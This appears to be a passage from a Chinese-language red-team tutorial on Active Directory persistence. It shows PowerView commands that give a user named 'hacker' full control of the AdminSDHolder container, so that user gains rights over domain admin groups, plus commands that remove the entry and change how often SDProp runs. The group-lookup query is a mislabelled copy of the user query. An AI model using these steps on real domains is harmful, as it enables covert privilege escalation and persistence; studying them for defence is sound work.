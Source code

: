   通过ActiveDirectory模块查询
  
  ```powershell
  #查找用户
  Import-Module ActiveDirectory
  Get-ADObject -LDAPFilter "(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))" |select name
  #查找组
  Get-ADObject -LDAPFilter "(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))" |select name
  ```
  
  默认状态下，系统每60分钟检查受保护对象的安全描述符，将受保护对象的ACL与AdminSDHolder容器的ACL进行比较，不一致的话，系统将会把受保护对象的ACL强制修改为AdminSDHolder的ACL，通过SDProp进程来完成。
  
  + 操作AdminSDHolder对象的ACL
  
    通过powerview向AdminSDHolder容器添加一个ACL对象，使普通用户hacker对AdminSDHolder有完全控制权
  
    ```powershell
    Import-Module .\PowerView.ps1
    Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName hacker -Verbose -Rights All
    ```
  
    ![AdminiSDHolder-user-add](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/AdminiSDHolder-user-add.png)
  
    添加好后可以查看一下
  
    ```powershell
    Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System" |select IdentityReference
    ```
  
    ![adduser](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/adduser.png)
  
    能够看到hacker用户对AdminSDHolder有了完全控制权限，此时hacker用户虽然没有在域管理组中，但是能够添加指定用户到域管理员组
  
    ![contrpl](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/contrpl.png)
  
    
  
    + 通过powerview删除AdminSDHolder中指定用户的ACL
  
      ```
      Remove-DomainObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=hack,DC=com" -PrincipalIdentity hacker -Rights All -Verbose
      ```

#### 操控SDPROP

+ 修改运行频率

  通过注册表修改

  ```
  reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency /t REG_DWORD /d 60
  ```
